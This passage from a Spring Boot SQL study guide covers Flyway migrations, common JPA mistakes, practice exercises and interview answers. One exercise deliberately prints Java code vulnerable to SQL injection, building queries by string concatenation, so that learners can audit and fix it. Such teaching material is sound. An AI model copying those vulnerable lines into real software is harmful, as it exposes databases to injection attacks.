// hikaricp.connections.timeout   — connection acquisition timeouts
// Alert if: pending > 0 for sustained periods, or timeouts > 0
```

---

## 11. Database Migration

### Flyway vs Liquibase

| Feature | Flyway | Liquibase |
|---|---|---|
| **Format** | Plain SQL files | XML, YAML, JSON, or SQL |
| **Learning curve** | Very low (just SQL) | Higher (DSL to learn) |
| **Rollback** | Manual (write a separate migration) | Built-in rollback support |
| **Database diff** | Not built-in | Can generate changelogs from DB diff |
| **Popularity** | Very popular in Spring ecosystem | Popular, especially enterprise |
| **Java API** | Yes | Yes |
| **Conditional migrations** | Limited | Powerful (preconditions, contexts) |

### Flyway Configuration

```yaml
spring:
  flyway:
    enabled: true
    locations: classpath:db/migration
    baseline-on-migrate: true    # for existing databases
    validate-on-migrate: true    # ensure scripts haven't been modified
```

### Migration File Naming

```
src/main/resources/db/migration/
  V1__create_customers_table.sql
  V2__create_orders_table.sql
  V3__create_shipments_table.sql
  V4__add_tracking_number_to_shipments.sql
  V5__create_index_on_order_date.sql
```

### Migration Best Practices

```sql
-- V4__add_tracking_number_to_shipments.sql

-- ✅ Good: additive, backward-compatible change
ALTER TABLE shipments ADD COLUMN tracking_number VARCHAR(100);
CREATE INDEX idx_shipments_tracking ON shipments (tracking_number);

-- ❌ Bad: destructive change in a migration
-- DROP COLUMN carrier;  -- breaks existing code that reads carrier
-- RENAME COLUMN status TO shipment_status;  -- breaks all existing queries
```

> [!warning] Migration Golden Rules
> 1. **Never modify a migration that's been applied** — create a new one
> 2. **Never delete applied migrations** — Flyway checks checksums
> 3. **Make migrations backward-compatible** — old code must work during deployment
> 4. **Test migrations against production-like data volumes** — a 1-second migration on dev might take 1 hour on prod
> 5. **Separate schema changes from data migrations** — different risk profiles

### Rollback Strategy

```sql
-- V6__add_email_verification.sql (forward migration)
ALTER TABLE customers ADD COLUMN email_verified BOOLEAN DEFAULT FALSE;

-- V6_1__undo_add_email_verification.sql (rollback — manual in Flyway)
ALTER TABLE customers DROP COLUMN email_verified;
```

---

## How Beginners Think vs How Strong SQL Engineers Think

| Aspect | Beginner | Strong SQL Engineer |
|---|---|---|
| ORM usage | "Use JPA for everything" | "JPA for CRUD, native SQL for complex queries — the right tool for the job" |
| N+1 problem | Doesn't know it exists until prod is slow | Enables SQL logging in dev, monitors query count per request |
| Pagination | Uses OFFSET everywhere | OFFSET for small datasets, keyset for large ones |
| Bulk operations | `saveAll()` with 10K entities | Batch INSERT with JdbcTemplate, chunk processing |
| SQL injection | "My framework handles it" | Understands WHY parameterization works, audits native queries |
| Connection pool | Default settings | Sized based on workload, monitors for leaks and timeouts |
| Migrations | `spring.jpa.hibernate.ddl-auto=update` | Version-controlled Flyway migrations, tested against prod data |
| Audit logging | "We don't need auditing" | Baked in from day one — `@CreatedDate`, `@LastModifiedDate`, or triggers |
| Error handling | Catches generic `Exception` | Catches `DataIntegrityViolationException`, handles constraint violations gracefully |
| Testing | Tests against H2 (different SQL dialect) | Testcontainers with the same database engine as production |

---

## Common Mistakes

> [!danger] Mistake 1: spring.jpa.hibernate.ddl-auto=update in Production
> Hibernate's DDL auto-generation is for prototyping. In production, it can make destructive schema changes. Use Flyway or Liquibase for all schema changes.

> [!danger] Mistake 2: Not Disabling Open Session in View
> The default `spring.jpa.open-in-view=true` keeps database connections open through the entire HTTP request lifecycle, wasting connection pool resources. Set it to `false`.

> [!danger] Mistake 3: Ignoring the N+1 Problem
> "It works fine in dev with 10 orders." In production with 10,000 orders, that's 10,001 queries. Enable SQL logging and monitor query counts.

> [!danger] Mistake 4: Using OFFSET Pagination on Large Tables
> Page 5,000 means scanning 100,000 rows. Use keyset pagination for APIs and infinite scroll UIs.

> [!danger] Mistake 5: Concatenating User Input into SQL Strings
> Even one unparameterized query is a critical security vulnerability. Use PreparedStatement, JPA parameters, or Spring Data — always.

> [!danger] Mistake 6: Not Configuring Connection Pool Sizes
> Default HikariCP is 10 connections. If your app has 200 concurrent requests each holding a connection for 100ms, you need to understand the math. Too few → timeouts. Too many → database overload.

> [!danger] Mistake 7: Testing with H2 but Deploying to PostgreSQL
> H2 has a different SQL dialect, different behavior for NULLs, different locking semantics. Use Testcontainers to test against the real database engine.

> [!danger] Mistake 8: Not Using @Transactional Correctly
> Missing `@Transactional` means each JPA call is its own transaction — no atomicity. Putting it on the wrong layer (controller instead of service) leaks persistence context details.

---

## Practice Exercises

> [!question] Exercise 1: Repository Pattern
> Create a Spring Data JPA repository for the `shipments` table with: (a) a derived query to find by carrier and status, (b) a JPQL query for shipments delivered in the last 7 days, (c) a native query using a window function to rank carriers by delivery speed.

> [!question] Exercise 2: Detect and Fix N+1
> Given an `Order` entity with `@OneToMany` to `OrderItem`, write a service method that loads all pending orders with their items. First write the N+1 version, enable SQL logging to see the problem, then fix it using `@EntityGraph`.

> [!question] Exercise 3: Keyset Pagination
> Implement cursor-based pagination for the `orders` table sorted by `order_date DESC, id DESC`. Write the repository method and the controller that accepts a cursor parameter.

> [!question] Exercise 4: Bulk Insert Performance
> Compare the performance of three approaches for inserting 10,000 products: (a) `saveAll()`, (b) `saveAll()` with batch_size=50, (c) `JdbcTemplate.batchUpdate()`. Measure and explain the differences.

> [!question] Exercise 5: SQL Injection Audit
> Review the following code and identify all SQL injection vulnerabilities. Rewrite each to be secure:
> ```java
> String sql = "SELECT * FROM orders WHERE status = '" + status + "'";
> String jpql = "SELECT o FROM Order o WHERE o.customer.name = '" + name + "'";
> entityManager.createNativeQuery("SELECT * FROM " + tableName);
> ```

> [!question] Exercise 6: Connection Pool Tuning
> Your application has 4 CPU cores, handles 100 concurrent requests, and each request makes 2 database calls averaging 50ms each. Calculate the optimal HikariCP pool size and justify your answer.

> [!question] Exercise 7: Flyway Migration
> Write Flyway migration scripts to: (a) create the `shipments` table, (b) add a `tracking_number` column, (c) create an index on `(order_id, status)`, (d) backfill `tracking_number` for existing rows. Ensure backward compatibility.

> [!question] Exercise 8: Audit Logging
> Implement audit logging for the `orders` table using two approaches: (a) Spring Data `@CreatedDate`/`@LastModifiedDate` for basic timestamps, (b) a PostgreSQL trigger that writes to an `audit_log` table with old/new values as JSONB.

> [!question] Exercise 9: DTO Projection
> Rewrite a controller endpoint that currently returns full `Order` entities (including all relationships) to use a DTO projection that returns only `id`, `status`, `totalAmount`, and `customerName`. Compare the SQL generated before and after.

> [!question] Exercise 10: Read Replica Routing
> Configure Spring Boot to route `@Transactional(readOnly = true)` methods to a read replica datasource and write operations to the primary. Write a test to verify the routing works correctly.

---

## Interview Questions

> [!question] Q1: What is the N+1 problem? How do you detect and fix it?
> **Answer:** N+1 occurs when an ORM loads N parent entities, then issues N separate queries to load each parent's related entities. Detect: enable SQL logging, count queries per request. Fix: `JOIN FETCH` (one query with join), `@EntityGraph` (declarative), `@BatchSize` (batched queries).

> [!question] Q2: When would you use raw SQL instead of JPA?
> **Answer:** Window functions, CTEs, complex aggregations, database-specific features (JSONB, full-text search), bulk operations, performance-critical queries, and reporting. JPA/JPQL doesn't support window functions, lateral joins, or most database-specific syntax.

> [!question] Q3: Explain SQL injection and how parameterized queries prevent it.
> **Answer:** SQL injection happens when user input is embedded in SQL as code. With parameterization, the database parses the query template first (no user data), then binds parameters as literal values. The user input can never be interpreted as SQL structure — it's always a data value.

> [!question] Q4: Compare OFFSET pagination vs keyset pagination.
> **Answer:** OFFSET: simple, supports arbitrary page jumps, but gets slower with higher offsets (scans and discards rows). Keyset: constant performance regardless of page depth (uses an index scan from the last-seen row), but can't jump to arbitrary pages and requires a deterministic sort order.

> [!question] Q5: What is Open Session in View and why is it considered an anti-pattern?
> **Answer:** OSIV keeps the Hibernate session open until the HTTP response is rendered, so lazy relationships can be loaded in the view/serialization layer. Problems: holds database connections for the full request lifecycle (wastes pool resources), triggers unpredictable queries in view rendering, masks N+1 problems.

> [!question] Q6: How do you handle database schema changes in production?
> **Answer:** Version-controlled migration tools (Flyway/Liquibase). Each change is a numbered migration script. Apply forward-only in production. Test against production-like data. Ensure backward compatibility during rolling deployments. Never use `hibernate.ddl-auto` in production.

> [!question] Q7: How do you size a connection pool?
> **Answer:** Start with `(2 × CPU_cores) + 1`. Adjust based on: query duration (longer queries need more connections), concurrency (more threads need more connections), but never more than what the database server can handle. Monitor `pending` connections and `timeout` events. Over-provisioning hurts: too many connections cause context switching overhead on the DB server.

> [!question] Q8: Explain the Cartesian product problem with Hibernate collections.
> **Answer:** When you `JOIN FETCH` two `@OneToMany` collections in one query, the result set is a Cartesian product of both collections. If an order has 5 items and 3 shipments, you get 15 rows. Fix: use `Set` instead of `List`, or split into two separate queries.

> [!question] Q9: How would you optimize a Spring Boot service that's making 500 database calls per request?
> **Answer:** 1) Enable SQL logging to identify the hotspot (likely N+1). 2) Use JOIN FETCH or @EntityGraph for eager loading. 3) Replace individual lookups with batch queries (WHERE id IN (...)). 4) Use DTO projections to avoid loading unnecessary data. 5) Consider caching for reference data. 6) Profile to find the actual bottleneck before optimizing.

> [!question] Q10: What's the difference between @Transactional on a service method vs a controller method?
> **Answer:** Service layer is correct — the transaction boundary matches the business operation. Controller layer is wrong — it extends the transaction (and DB connection hold time) through the entire request, including serialization, and leaks persistence context concerns into the web layer. Keep transactions as short as possible.

> [!question] Q11: How would you implement idempotent bulk data imports?
> **Answer:** Use upsert patterns (`INSERT ON CONFLICT DO UPDATE` / `MERGE`). Process in batches with explicit transaction boundaries per batch. Store a deduplication key (e.g., external ID) with a unique constraint. Log successes/failures per batch. Support resumability via watermarking (track the last successfully processed record). See [[14 - Advanced SQL]] — MERGE / UPSERT section.

---

> [!tip] What's Next?
> Continue to [[16 - SQL for Cybersecurity and Analytics]] to learn how SQL powers security operations, threat detection, and data analytics.
